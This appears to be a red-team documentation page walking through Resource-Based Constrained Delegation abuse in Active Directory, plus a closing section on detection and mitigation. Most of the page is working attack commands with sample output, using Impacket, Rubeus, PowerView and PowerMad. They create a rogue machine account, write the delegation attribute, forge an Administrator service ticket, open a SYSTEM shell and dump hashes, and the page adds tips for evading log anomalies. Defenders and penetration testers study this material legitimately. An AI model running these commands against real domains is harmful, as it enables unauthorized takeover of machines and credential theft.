

## What Is Resource-Based Constrained Delegation?

Resource-Based Constrained Delegation (RBCD — introduced in Windows Server 2012 R2) flips the trust model of earlier delegation types. In classic [Constrained Delegation](/docs/kerberos/delegation/constrained-delegation/) (KCD), a Domain Admin configures the *front-end* service account and declares which back-end services it may delegate to. RBCD removes Domain Admin from that equation entirely: the *back-end resource* itself decides which accounts are allowed to impersonate users to it, via the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the target computer object in AD (Active Directory — Microsoft's directory service for Windows domains).

That attribute stores a Security Descriptor (a binary access-control structure — the same kind Windows uses on files and registry keys) containing a list of ACEs (Access Control Entries — individual allow/deny rules inside an ACL) that name which accounts may invoke S4U2Self + S4U2Proxy on the target's behalf.

Why this matters for attackers: **writing to that attribute on any computer object is enough to own it.** If an attacker controls an account with `GenericWrite`, `GenericAll`, `WriteDACL`, or `WriteOwner` over a computer's AD object — or is a member of Account Operators — they can write their own machine account's SID (Security Identifier — the unique numeric identifier Windows uses to track every account and group) into that attribute, then use [S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/) + S4U2Proxy to synthesize a [service ticket](/docs/kerberos/tickets/) as any user, including `Administrator`, to that machine.

The full attack chain in four stages:

1. **Find a computer object you can write to** — enumerate ACLs for accounts you control
2. **Acquire a machine account with an [SPN](/docs/kerberos/kerberoast/)** — create one using `MachineAccountQuota`, or use an existing account you control that already has a Service Principal Name (SPN — a unique identifier binding a service to an account, e.g. `cifs/ws01.radiant.local`; the KDC requires an SPN to issue service tickets)
3. **Write the machine account's SID into `msDS-AllowedToActOnBehalfOfOtherIdentity`** on the target computer
4. **S4U2Self + S4U2Proxy** — synthesize a service ticket as `Administrator` to the target machine's CIFS service, then log in


## How Does an RBCD Attack Work?

An RBCD attack writes an attacker-controlled account's SID into the target computer's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, which is the target's own record of who may delegate to it. The attacker then chains S4U2Self and S4U2Proxy to obtain a service ticket impersonating any user, including Administrator. Every ticket in the chain is genuine: the KDC is correctly enforcing a delegation right the attacker granted itself.



The KDC's decision in S4U2Proxy is simple: it reads the target computer's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, checks whether the requesting account's SID (`EVIL$`) appears in the embedded Security Descriptor, and if so, issues the ticket — and marks the S4U2Self ticket forwardable so that S4U2Proxy can proceed. The attacker wrote that SID there — so the KDC approves every S4U2Proxy request and issues a genuine service ticket as `Administrator`.


## What Does an RBCD Attack Require?

- An attacker-controlled domain account (e.g., `jdoe`) that has one of the following over at least one computer object:
  - `GenericWrite` — directly write any non-protected attribute, including `msDS-AllowedToActOnBehalfOfOtherIdentity`
  - `GenericAll` — full control, superset of GenericWrite
  - `WriteDACL` — rewrite the object's DACL (Discretionary Access Control List — the list of rules governing who can do what to an object) to grant yourself GenericWrite, then proceed
  - `WriteOwner` — take ownership of the object, then grant yourself GenericWrite via DACL
  - Membership in **Account Operators** — this built-in group can manage computer objects in certain containers (though not the default `Computers` container or Domain Controllers OU — OU stands for Organizational Unit, a container in AD for organizing objects)
- `MachineAccountQuota` greater than 0 on the domain (default: 10) — this domain attribute (`ms-DS-MachineAccountQuota`) allows regular users to create up to that many machine accounts themselves; if it is 0, you need an already-controlled account with an SPN
- Network access to a domain controller on port 389 (LDAP) and port 88 (Kerberos)


## Finding Writable Computer Objects

The goal is to identify computer objects in AD where your controlled account (`jdoe` or any group it belongs to) has one of the writable ACL conditions. Both tools below parse the domain's ACL data and filter for those conditions.


  
**BloodHound + bloodhound-python** is the most thorough method. BloodHound (https://github.com/BloodHoundAD/BloodHound) is an AD attack-path analysis tool that ingests all ACL, group, and session data from the domain and lets you query shortest attack paths graphically. `bloodhound-python` is the remote collector that pulls that data without needing any agent on the target.

```bash
bloodhound-python \
  -u jdoe \
  -p 'Password123!' \
  -d radiant.local \
  -dc dc01.radiant.local \
  -c All \
  --zip
```

Flag breakdown:
- `-u` / `-p` — credentials for the collecting account; does not need elevated rights
- `-d` — FQDN (Fully Qualified Domain Name — the complete dot-separated hostname, e.g. `radiant.local`) of the target domain
- `-dc` — domain controller to collect from
- `-c All` — collect all data categories: ACLs, group memberships, sessions, trusts, and GPO (Group Policy Object) links
- `--zip` — compress output into a single zip for BloodHound import

```
INFO: Found AD domain: radiant.local
INFO: Connecting to LDAP server: dc01.radiant.local
INFO: Found 1 domains
INFO: Found 2 computers
INFO: Found 6 users
INFO: Found 5 groups
INFO: Done in 00M 04S
INFO: Compressing output into 20260312120000_BloodHound.zip
```

Import the zip into BloodHound, then run the pre-built query **"Find Shortest Paths to Domain Admins"**, or run this custom Cypher query in the Raw Query box to find every computer object your account can write to:

```cypher
MATCH p=shortestPath((u:User {name:"JDOE@RADIANT.LOCAL"})-[r:GenericWrite|GenericAll|WriteDACL|WriteOwner|Owns*1..]->(c:Computer))
RETURN p
```

---

Alternatively, use `ldapdomaindump` for a lightweight ACL export when BloodHound setup is impractical:

```bash
ldapdomaindump \
  -u 'radiant.local\jdoe' \
  -p 'Password123!' \
  dc01.radiant.local \
  -o /tmp/ldapdump
```

Flag breakdown:
- `-u` — username in `DOMAIN\user` format
- `-p` — password
- positional argument — domain controller hostname or IP
- `-o` — output directory for the HTML/JSON/grep-able dump files

```
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

The output includes `domain_computers_by_os.html` and `domain_computers.json`. Cross-reference the computer objects against `domain_users.grep` to spot accounts in ACL-relevant groups — look for entries in `domain_groups.json` where your attacker account is nested into groups like Account Operators, which carries implicit write rights over certain computer containers. For a targeted check of whether `msDS-AllowedToActOnBehalfOfOtherIdentity` is already set on a specific computer (`WS01`), use `rbcd.py -action read` (shown in the Configuring RBCD section) — it is simpler and does not require a Python one-liner.
  
  
**PowerView** (part of PowerSploit) exposes `Get-DomainObjectAcl` for granular ACL queries. Load it in memory from a trusted share or from disk; the backtick `` ` `` at the end of a PowerShell line is PowerShell's line continuation character — it lets you split one command across multiple lines for readability.

```powershell {linenos=table}
# Load PowerView (adjust path to your drop location)
. C:\Tools\PowerView.ps1

# Resolve your current account's SID for filtering
$CurrentSID = (New-Object Security.Principal.NTAccount("radiant.local", "jdoe")).Translate(
    [Security.Principal.SecurityIdentifier]).Value

# Find all computer objects where jdoe has a writable right
Get-DomainObjectAcl -Domain radiant.local -ResolveGUIDs |
  Where-Object {
    $_.SecurityIdentifier -eq $CurrentSID -and
    $_.ActiveDirectoryRights -match 'GenericWrite|GenericAll|WriteDACL|WriteOwner'
  } |
  Select-Object ObjectDN, ActiveDirectoryRights, SecurityIdentifier
```

Flag and parameter breakdown:
- `-Domain` — target domain FQDN; without it PowerView defaults to the current machine's domain
- `-ResolveGUIDs` — translates raw GUID-based rights (e.g., `00299570-246d-11d0-a768-00aa006e0529`) into human-readable right names
- `Where-Object` — filters pipeline objects; `$_` refers to the current object in the pipeline
- `Select-Object` — picks only the listed properties for output

```
ObjectDN              : CN=WS01,CN=Computers,DC=radiant,DC=local
ActiveDirectoryRights : GenericWrite
SecurityIdentifier    : S-1-5-21-3623811015-3361044348-30300820-1105
```

That output means `jdoe` (SID ending in `-1105`) has `GenericWrite` over `WS01$` — the exact right needed to write `msDS-AllowedToActOnBehalfOfOtherIdentity`.

---

To check if the domain's `MachineAccountQuota` allows creating machine accounts:

```powershell
Get-ADObject -Identity "DC=radiant,DC=local" `
  -Properties "ms-DS-MachineAccountQuota" |
  Select-Object "ms-DS-MachineAccountQuota"
```

```
ms-DS-MachineAccountQuota
-------------------------
                       10
```

`10` means every regular domain user can create up to 10 machine accounts — the default and the value you need for the next step. If this returns `0`, skip to [Operational Notes](#operational-notes) for the existing-SPN alternative.
  



## Creating an Attacker-Controlled Machine Account

The attack requires an account with an SPN (Service Principal Name — a unique identifier that tells the KDC which account is responsible for a given service, e.g. `HOST/EVIL.radiant.local`). Machine accounts (computer accounts ending in `$`) automatically get SPNs registered when created. The KDC will only mark the S4U2Self ticket forwardable — which S4U2Proxy requires — if the requesting account is listed in the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` AND has an SPN. A regular user account without an SPN will receive a non-forwardable S4U2Self ticket, making S4U2Proxy impossible.


  
`addcomputer.py` (part of Impacket — install with `pipx install impacket`) creates a machine account directly via LDAP. The `\` at the end of each line is bash's line continuation character — the entire block runs as a single command.

```bash
addcomputer.py \
  -computer-name 'EVIL$' \
  -computer-pass 'Evil@Pass1!' \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

Flag breakdown:
- `-computer-name` — the sAMAccountName (SAM — Security Account Manager — account name) for the new machine account; the `$` suffix is the Windows convention that marks it as a machine account
- `-computer-pass` — password for the new account; you choose this and will use it in the S4U steps
- positional `radiant.local/jdoe:'Password123!'` — domain/username:password of the account creating the machine account; this account is spending one slot of its `MachineAccountQuota` allowance
- `-dc-ip` — IP of the domain controller to contact; using IP avoids DNS dependency

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Successfully added machine account EVIL$ with password Evil@Pass1!.
```

Confirm the account exists and note its SID — you will need the SID in the next step:

```bash
python3 -c "
import ldap3
server = ldap3.Server('192.168.56.10')
conn = ldap3.Connection(server, 'radiant.local\\jdoe', 'Password123!', auto_bind=True)
conn.search('DC=radiant,DC=local',
    '(sAMAccountName=EVIL$)',
    attributes=['objectSid','servicePrincipalName'])
print(conn.entries)
"
```

```
DN: CN=EVIL,CN=Computers,DC=radiant,DC=local
    objectSid: S-1-5-21-3623811015-3361044348-30300820-5101
    servicePrincipalName: HOST/EVIL
                          HOST/EVIL.radiant.local
                          RestrictedKrbHost/EVIL
                          RestrictedKrbHost/EVIL.radiant.local
```

The SPNs are automatically populated — `HOST/EVIL` is the SPN that enables S4U2Self to return a forwardable ticket.
  
  
**PowerMad** (https://github.com/Kevin-Robertson/Powermad) provides `New-MachineAccount`, which creates machine accounts without requiring elevated rights — it uses the same `MachineAccountQuota` mechanism that `addcomputer.py` uses.

```powershell
# Load PowerMad
. C:\Tools\Powermad.ps1

# Create the machine account
New-MachineAccount `
  -MachineAccount EVIL `
  -Password (ConvertTo-SecureString 'Evil@Pass1!' -AsPlainText -Force)
```

Flag and parameter breakdown:
- `-MachineAccount` — the name of the new computer account; PowerMad appends the `$` automatically
- `-Password` — takes a `SecureString` object; `ConvertTo-SecureString ... -AsPlainText -Force` converts a plaintext string into the required type (`-Force` suppresses the warning about plaintext passwords in scripts)

```
[+] Machine account EVIL added
```

Retrieve the SID of the new account for the next step:

```powershell
$EvilSID = (Get-ADComputer EVIL).SID
Write-Host "EVIL$ SID: $EvilSID"
```

```
EVIL$ SID: S-1-5-21-3623811015-3361044348-30300820-5101
```

`Get-ADComputer` is part of the RSAT (Remote Server Administration Tools — an optional Windows feature that adds AD management cmdlets) ActiveDirectory module; it may not be present on non-domain-joined machines. If `Get-ADComputer` is unavailable, use PowerView's `Get-DomainComputer EVIL | Select-Object objectsid` instead.
  



## Configuring RBCD

This step writes the Security Descriptor into `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target computer object (`WS01$`). After this write, the KDC will honour S4U2Proxy requests from `EVIL$` targeting `WS01$`.


  
`rbcd.py` (Impacket) handles the Security Descriptor construction and LDAP write in one command.

```bash
rbcd.py \
  -delegate-from 'EVIL$' \
  -delegate-to 'WS01$' \
  -action write \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

Flag breakdown:
- `-delegate-from` — the account being granted delegation rights; must already exist and have an SPN
- `-delegate-to` — the target computer object to write the attribute on; requires that `jdoe` has `GenericWrite` or equivalent
- `-action write` — creates or replaces the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute; other valid values are `read` (dump current contents) and `remove` (delete the attribute)
- positional `radiant.local/jdoe:'Password123!'` — the credentials used to authenticate the LDAP write

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] EVIL$ can now impersonate users on WS01$ via S4U2Proxy
```

Verify the write landed:

```bash
rbcd.py \
  -delegate-to 'WS01$' \
  -action read \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity:
[*]   ACE[0]: Allow EVIL$ (S-1-5-21-3623811015-3361044348-30300820-5101)
```
  
  
The Windows approach builds a `RawSecurityDescriptor` object in memory, serialises it to bytes using the SDDL (Security Descriptor Definition Language — a string format for encoding Windows security descriptors as human-readable text, e.g. `O:BAD:(A;;CCDCLC...;;;SID)`), and writes those bytes directly into the AD attribute via `Set-ADComputer`.

```powershell {linenos=table}
# $EvilSID was set in the previous step; if starting fresh:
$EvilSID = (Get-ADComputer EVIL).SID

# Build the Security Descriptor in SDDL format
# O:BA  = Owner is Built-in Administrators
# D:    = DACL follows
# (A;;  = Allow ACE
#  CCDCLCSWRPWPDTLOCRSDRCWDWO  = all write/control rights needed for delegation
#  ;;;$SID) = granted to EVIL$'s SID
$SD = New-Object Security.AccessControl.RawSecurityDescriptor `
  -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($EvilSID))"

# Serialise to a byte array
$Bytes = New-Object Byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($Bytes, 0)

# Write to WS01$'s AD object
Get-ADComputer WS01 | Set-ADComputer `
  -Replace @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $Bytes}
```

Command and parameter breakdown:
- `New-Object Security.AccessControl.RawSecurityDescriptor` — constructs a Security Descriptor from an SDDL string; `RawSecurityDescriptor` accepts binary and SDDL forms
- `$SD.BinaryLength` — the exact byte count needed for the output array; must match or `GetBinaryForm` throws
- `$SD.GetBinaryForm($Bytes, 0)` — serialises the SD into the byte array starting at offset 0
- `Set-ADComputer -Replace @{...}` — replaces (overwrites) the named attribute; `-Add` would append to an existing multi-value attribute, but this attribute is single-value binary, so `-Replace` is correct

Confirm the write:

```powershell
(Get-ADComputer WS01 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity).`
  msDS-AllowedToActOnBehalfOfOtherIdentity | ForEach-Object {
    $sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $_, 0
    $sd.DiscretionaryAcl
  }
```

``` {linenos=table}
BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-3623811015-3361044348-30300820-5101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
```

The SID in the output matches `EVIL$` — the write succeeded.
  



## S4U2Self + S4U2Proxy

With `msDS-AllowedToActOnBehalfOfOtherIdentity` written, authenticate as `EVIL$` and run the two-step S4U extension chain. S4U2Self synthesises a service ticket for `Administrator` addressed *to* `EVIL$`; S4U2Proxy uses that ticket to request a service ticket for `Administrator` addressed to `cifs/ws01.radiant.local`. The result is a `.ccache` file (on Linux) or an injected ticket (on Windows) representing `Administrator`'s access to WS01's file share.


  
`getST.py` handles the full S4U2Self → S4U2Proxy chain in one invocation.

```bash
getST.py \
  -spn cifs/ws01.radiant.local \
  -impersonate Administrator \
  radiant.local/'EVIL$':'Evil@Pass1!' \
  -dc-ip 192.168.56.10
```

Flag breakdown:
- `-spn` — the target SPN to request the final service ticket for; `cifs/ws01.radiant.local` gives access to SMB file shares and often enables lateral movement via `psexec.py`; other useful SPNs include `host/ws01.radiant.local` and `http/ws01.radiant.local`
- `-impersonate` — the user to impersonate in both S4U calls; must not be a member of Protected Users (see Operational Notes)
- positional `radiant.local/'EVIL$':'Evil@Pass1!'` — credentials for the machine account performing S4U; the quotes around `EVIL$` prevent the shell from treating `$` as a variable expansion
- `-dc-ip` — DC IP for the Kerberos exchange

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache
```

**Important:** The log line `Requesting S4U2self` shows a forwardable ticket being obtained for `EVIL$` (the account running the attack) — not yet for `Administrator`. The name in that line refers to the subject of the self-ticket, not the impersonation target. `Administrator` appears in the next line when S4U2Proxy uses that ticket.

The output file name follows Impacket's convention: `<impersonated_user>@<spn_with_slashes_as_underscores>@<REALM>.ccache`.
  
  
Rubeus's `s4u` action performs both S4U extensions in one command. You need the NT hash of `EVIL$`. The easiest way to get it is Rubeus itself — the `hash` action converts a plaintext password to an NT hash without touching [LSASS](/docs/redteam/credential-dumping/):

```powershell
.\Rubeus.exe hash /password:'Evil@Pass1!'
```

```
[*] Action: Calculate Password Hash(es)

[*] Input password             : Evil@Pass1!
[*]       rc4_hmac             : a34c7d4a9e38c5d12f4b87e63c0b1a9f
```

Then run the S4U chain. The backtick `` ` `` at the end of each line is PowerShell's line continuation character:

```powershell
.\Rubeus.exe s4u `
  /user:EVIL$ `
  /rc4:a34c7d4a9e38c5d12f4b87e63c0b1a9f `
  /impersonateuser:Administrator `
  /msdsspn:cifs/ws01.radiant.local `
  /ptt
```

Flag breakdown:
- `/user` — the machine account performing S4U; must match the account whose SID is in the target's `msDS-AllowedToActOnBehalfOfOtherIdentity`
- `/rc4` — NT hash of `EVIL$`; used to authenticate the initial TGT request for `EVIL$`. This is **EVIL$'s** hash — not the target user's hash, not the [krbtgt](/docs/kerberos/ticket-attacks/golden-ticket/) hash
- `/impersonateuser` — the domain user to impersonate in both S4U calls
- `/msdsspn` — the target SPN for the final S4U2Proxy ticket; must match an SPN registered on the target computer
- `/ptt` — Pass-The-Ticket: inject the resulting service ticket directly into the current Windows logon session's ticket cache so it is usable immediately without saving to disk

``` {linenos=table}
[*] Action: S4U

[*] Using rc4_hmac hash: a34c7d4a9e38c5d12f4b87e63c0b1a9f
[*] Building AS-REQ (w/ preauth) for: 'radiant.local\EVIL$'
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIFpDCC...

[*] Action: S4U (Step 1)
[*] Requesting S4U2self ticket...
[+] S4U2self ticket: [forwardable ticket] for EVIL$
[*] Action: S4U (Step 2 - S4U2Proxy)
[*] Trying to use S4U2Proxy to obtain a TGS for Administrator to cifs/ws01.radiant.local
[+] S4U2Proxy ticket: Administrator@cifs/ws01.radiant.local

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

The S4U2self output line reads `forwardable ticket for EVIL$` — `EVIL$` is the account performing S4U2Self (the one requesting the ticket on its own behalf). This is correct and expected. `Administrator` appears in the S4U2Proxy step (Step 2) as the impersonated subject in the final service ticket.
  



## Using the Ticket


  
Set the `KRB5CCNAME` environment variable to point at the ccache file — every Impacket tool reads this variable to locate the ticket cache. The `export` command makes it available to subsequent commands in the same shell session.

```bash
export KRB5CCNAME=Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache

# Interactive shell via SMB
psexec.py -k -no-pass ws01.radiant.local
```

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting shares on ws01.radiant.local.....
[*] Found writable share ADMIN$
[*] Uploading file xKbTqFpO.exe
[*] Opening SVCManager on ws01.radiant.local.....
[*] Creating service PqWs on ws01.radiant.local.....
[*] Starting service PqWs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Flag breakdown for `-k -no-pass`:
- `-k` — use Kerberos authentication; reads the ticket from the path in `KRB5CCNAME` instead of prompting for a password
- `-no-pass` — suppress the password prompt; without this flag Impacket asks for a password even when `-k` is set

Other tools that accept the same ccache:

```bash
# Browse file shares
smbclient.py -k -no-pass ws01.radiant.local

# WMI execution (stealthier — no service install)
wmiexec.py -k -no-pass ws01.radiant.local

# Dump local hashes from WS01
secretsdump.py -k -no-pass ws01.radiant.local
```
  
  
If you used `/ptt` in the previous step, the ticket is already injected — verify it is present, then access the target:

```powershell
klist
```

```
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: cifs/ws01.radiant.local @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate
        Start Time: 3/12/2026 09:00:00 (local)
        End Time:   3/12/2026 19:00:00 (local)
```

The key fields to confirm: `Client` shows `Administrator` (the impersonated account), `Server` shows `cifs/ws01.radiant.local` (the target SPN), and `End Time` is 10 hours out — a normal KDC-issued lifetime. This is a legitimate service ticket, not a forged one; it will pass PAC verification at the target.

```powershell
# C$ is a hidden Windows administrative share that exposes the entire C: drive —
# automatically created on every Windows machine, only accessible to administrators
dir \\ws01.radiant.local\C$

# Enter-PSSession opens an interactive PowerShell session on the remote machine,
# functionally equivalent to SSH — authenticated via the injected Kerberos ticket
Enter-PSSession -ComputerName ws01.radiant.local
```

```
    Directory: \\ws01.radiant.local\C$

Mode                 LastWriteTime         Length Name
----                 -------------         ------  ----
d-----         1/12/2026  08:14 AM                PerfLogs
d-r---         2/20/2026  03:41 PM                Program Files
d-----         1/12/2026  08:14 AM                Program Files (x86)
d-r---         3/01/2026  10:22 AM                Users
d----l         3/01/2026  10:22 AM                Windows
```

If the ticket was saved to disk instead:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\administrator_cifs_ws01.kirbi
```
  



## Cleanup

Remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from the target computer after the operation. Leaving it in place is a persistent backdoor that any future attacker (or defender) running an ACL audit will find immediately.


  
```bash
rbcd.py \
  -delegate-to 'WS01$' \
  -action remove \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Delegation rights removed successfully!
```

Optionally remove the machine account too (requires the account that created it, or Domain Admin):

```bash
addcomputer.py \
  -computer-name 'EVIL$' \
  -action remove \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

```
[*] Successfully deleted machine account EVIL$.
```
  
  
```powershell
# Clear the attribute on WS01$
Set-ADComputer WS01 -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
```

Confirm it is gone:

```powershell
(Get-ADComputer WS01 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity).`
  msDS-AllowedToActOnBehalfOfOtherIdentity
```

```
(empty — attribute cleared)
```

Remove the machine account:

```powershell
# PowerMad removal
Remove-MachineAccount -MachineAccount EVIL
```

```
[+] Machine account EVIL removed
```

Or via RSAT:

```powershell
Remove-ADComputer -Identity EVIL -Confirm:$false
```
  



## Operational Notes

**MachineAccountQuota is the default enabler.** The `ms-DS-MachineAccountQuota` attribute on the domain root object defaults to 10 in every Windows domain. This means any authenticated user — regardless of group membership — can create up to 10 computer accounts, giving themselves an SPN-bearing account at will. Setting this to 0 removes the self-service machine account creation path entirely and is one of the most effective mitigations.

**What to do when MachineAccountQuota is 0.** If `ms-DS-MachineAccountQuota` is 0, you cannot create a new machine account as a regular user. The alternative is to find an existing account you already control that has an SPN registered. Service accounts commonly have SPNs (`MSSQLSvc/...`, `HTTP/...`, `RestrictedKrbHost/...`). If you have the password or hash of `svc_sql`, and `svc_sql` has an SPN, you can use `svc_sql` in place of `EVIL$` for the entire chain — set `msDS-AllowedToActOnBehalfOfOtherIdentity` to reference `svc_sql`, then run `getST.py` authenticating as `svc_sql`.

**Protected Users blocks the impersonation target, not the attacker.** If `Administrator` is a member of the Protected Users security group (introduced in Windows Server 2012 R2 — members cannot use NTLM, cannot have forwardable tickets, and cannot use RC4 or DES encryption), the KDC will refuse S4U2Proxy requests naming them as the impersonation target. This blocks RBCD against Protected Users members. Target a different local admin account, or look for a service account with local admin rights that is not in Protected Users. The attacker's account (`EVIL$`) does not need to avoid Protected Users — only the impersonation target does.

**Write-access paths that enable RBCD.** The ACL conditions that allow writing `msDS-AllowedToActOnBehalfOfOtherIdentity` are:

| Right | How it enables RBCD |
|---|---|
| `GenericWrite` | Direct attribute write — simplest path |
| `GenericAll` | Full control, superset of GenericWrite |
| `WriteDACL` | Rewrite the target's DACL to grant yourself GenericWrite, then write the attribute |
| `WriteOwner` | Take ownership of the object, then use WriteDACL to grant GenericWrite |
| Account Operators membership | Grants managed access to computer objects in non-default OUs; check container scope carefully |

**AES is preferred.** Pass `/aes256` and the AES256 key to Rubeus's `s4u` action instead of `/rc4` and the NT hash when you have it. An RC4-encrypted Kerberos ticket on a domain that enforces AES (`msDS-SupportedEncryptionTypes` — the AD attribute that controls which Kerberos encryption types an account supports) is an immediate anomaly in logs.

**The SPN on the target matters.** `getST.py` and Rubeus's `/msdsspn` flag must specify an SPN that is actually registered on `WS01$`. The default machine account SPNs (`HOST/ws01.radiant.local`, `cifs/ws01.radiant.local`, `RestrictedKrbHost/ws01.radiant.local`) are always present. If you request an SPN that does not exist on the target, the KDC returns `KDC_ERR_S_PRINCIPAL_UNKNOWN` and the ticket request fails.


## How Do You Detect and Defend Against RBCD Attacks?

### What Logs Does an RBCD Attack Generate?

- **Event ID 4741** at the DC — computer account created (`EVIL$`); fires when `addcomputer.py` or `New-MachineAccount` registers the new machine account in AD via LDAP
- **Event ID 5136** at the DC — "A directory service object was modified"; fires when `msDS-AllowedToActOnBehalfOfOtherIdentity` is written; the log includes the object DN (`CN=WS01,CN=Computers,DC=radiant,DC=local`) and the attribute name — this is the most actionable event in the chain
- **Event ID 4769** at the DC — TGS-REQ; fires twice — once for S4U2Self and once for S4U2Proxy; the service name in the S4U2Proxy request will be `cifs/ws01.radiant.local` with a client name of `Administrator`
- **Event ID 4624** at `WS01` — logon event for `Administrator` when `psexec.py` or `Enter-PSSession` connects
- **Event ID 4742** at the DC — computer account changed; fires if you modify `EVIL$`'s attributes after creation

### What Logs Does an RBCD Attack Not Generate?

- **The LDAP write to `msDS-AllowedToActOnBehalfOfOtherIdentity`** does not generate a dedicated "delegation configured" alert out of the box — it only appears in 5136 if Directory Service Changes auditing is enabled (not enabled by default in most environments)
- **Reading `msDS-AllowedToActOnBehalfOfOtherIdentity`** via LDAP generates no event — an attacker enumerating current RBCD configurations is invisible without network-level logging
- **The S4U chain itself** appears as routine 4769 events; without correlating the service ticket client name (`Administrator`) against the account that actually authenticated to obtain the initial TGT (`EVIL$`), the two requests look unrelated

### How Do You Mitigate RBCD Attacks?

- **Set `ms-DS-MachineAccountQuota` to 0** — removes self-service machine account creation; any new computer account must be created by an administrator, eliminating the primary SPN-acquisition path for unprivileged attackers
- **Audit and restrict GenericWrite / GenericAll ACEs** on computer objects — run BloodHound or `Get-DomainObjectAcl` regularly to identify non-admin accounts with write access to computer objects; remove or scope down excess rights aggressively
- **Add privileged accounts to Protected Users** — members cannot be impersonated via S4U2Proxy; this is the most direct mitigation for limiting RBCD's blast radius even after a write-access compromise
- **Enable "Audit Directory Service Changes" (Event ID 5136)** — off by default; without it, writes to sensitive AD attributes including `msDS-AllowedToActOnBehalfOfOtherIdentity` are invisible in Windows event logs
- **Monitor for unusual machine account creation** — a regular user creating a computer account whose name does not match any naming convention or provisioning workflow is a high-fidelity indicator; alert on 4741 events where the creator is not a provisioning service account or admin

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has a dedicated "Suspected RBCD attack" alert that fires on the combination of a new machine account creation followed by an LDAP write to `msDS-AllowedToActOnBehalfOfOtherIdentity` on a different computer object within a short time window; also alerts on S4U abuse patterns in Kerberos traffic
- **Microsoft Sentinel / Splunk** — correlate Event ID 4741 (new machine account) → 5136 on a computer object (`msDS-AllowedToActOnBehalfOfOtherIdentity` modified) → 4769 where the client account differs from the service name account; the three-event chain is high-confidence
- **BloodHound Enterprise** — continuous ACL monitoring flags new `GenericWrite` / `GenericAll` paths to computer objects as attack-path changes; useful for catching delegated write access before it is exploited
- **Zeek / network monitoring** — LDAP `ModifyRequest` messages targeting `msDS-AllowedToActOnBehalfOfOtherIdentity` are visible in plaintext on port 389; flag any modification by a non-admin account; Zeek's `ldap.log` captures the operation type and attribute name


## References

### Original Research
